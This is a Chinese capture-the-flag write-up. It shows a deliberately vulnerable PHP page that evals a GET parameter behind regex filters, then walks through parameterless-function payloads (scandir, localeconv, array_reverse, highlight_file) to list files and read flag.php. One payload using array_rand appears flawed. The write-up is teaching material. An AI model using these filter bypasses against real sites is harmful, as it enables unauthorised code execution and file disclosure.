


## 思路

1. 利用GitHack获取index.php，如下：

   ```python
   <?php
   include "flag.php";
   echo "flag在哪里呢？<br>";
   if(isset($_GET['exp'])){
       if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
       //不能使用几种伪协议
           if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
           //只能使用无参数函数
               if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
               //调用的函数不能包含上面的字符
                   // echo $_GET['exp'];
                   @eval($_GET['exp']);
               }
               else{
                   die("还差一点哦！");
               }
           }
           else{
               die("再好好想想！");
           }
       }
       else{
           die("还想读flag，臭弟弟！");
       }
   }
   // highlight_file(__FILE__);
   ?>
   
   ```

2. 分析上面源码，可以获取以下信息：

   - url获取exp参数
   - 第一层过滤：不能使用data://  filter:// php:// phar:// 伪协议获取数据
   - 第二层过滤：匹配无参数的函数
   - 第三层过滤：使用的函数不能包含字符`et|na|info|dec|bin|hex|oct|pi|log`

   仅在满足以上三个条件时，才会执行exp中的内容，因此之前常用的命令注入的思路在本题无法走通。

   本题的重点在于**无参数函数**的使用

3. 显示当前目录下的文件列表（实现system('ls');功能）

   php中获取目录下的文件：**scandir()** 

   php中输出字符串的函数有：echo、print、print_r、printf、sprintf、var_dump

   > echo "hello","world!"
   >
   > print "Hello World!"  输出一个字符串
   >
   > print_r(Array)  可输出字符串、整型、数组、对象类等
   >
   > printf、sprintf 格式化输出字符串
   >
   > var_dump  显示结构信息、包括类型和值，并以缩进表示层次。

   表示**点**的函数：current(localeconv())/pos(localeconv())

   localeconv()函数返回的数组的第一个即为小数点

   

   所以这里可用：

   - print_r(scandir(current(localeconv())))
   - var_dump(scandir(current(localeconv())))

   

4. 可以看到当前目录下有flag.php文件，是第3个文件。说明最终的flag可能在这个文件里面。

5. 读取flag.php文件：

   读取文件内容：

   - file_get_contents()    本题不能使用  因为匹配了et
   - readfile()  
   - highlight_file()  
   - show_source()

   读取数组列表的倒数第二个：

   - 因为函数不能传递参数，所以本题只能使用php的数组指针来获取特定位置的值

   - 将scandir返回的数组逆序排序（array_reverse），获取下一个next	

     - highlight_file(next(array_reverse(scandir(current(localeconv())))));

       > 注意：不能使用highlight_file(next(next(next(scandir(current(localeconv()))))); 

   - 使用array_rand()函数，多刷新几次

     - highlight_file(array_rand(scandir(current(localeconv()))));

## 总结

- 利用无参数函数进行命令注入